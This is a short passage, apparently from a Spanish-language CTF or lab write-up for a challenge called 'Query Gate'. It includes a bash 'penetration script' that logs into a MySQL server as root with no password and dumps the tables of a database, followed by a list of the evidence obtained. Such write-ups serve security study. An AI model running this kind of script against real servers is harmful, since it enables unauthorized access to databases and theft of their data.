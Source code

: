 ```bash
#!/bin/bash
# Script de automatización para Query Gate
echo "=== Query Gate Penetration Script ==="
echo "Connecting to MySQL..."
mysql -h $1 -u root -e "
SHOW DATABASES;
USE detective_inspector;
SHOW TABLES;
SELECT * FROM hacker_list;
"
```

### 14.3 Evidencias

- Puerto 3306 confirmado abierto
- Acceso root sin contraseña verificado
- Base de datos `detective_inspector` confirmada
- Tabla `hacker_list` identificada
- Registro con nickname `h4ckv1s3r` extraído

---
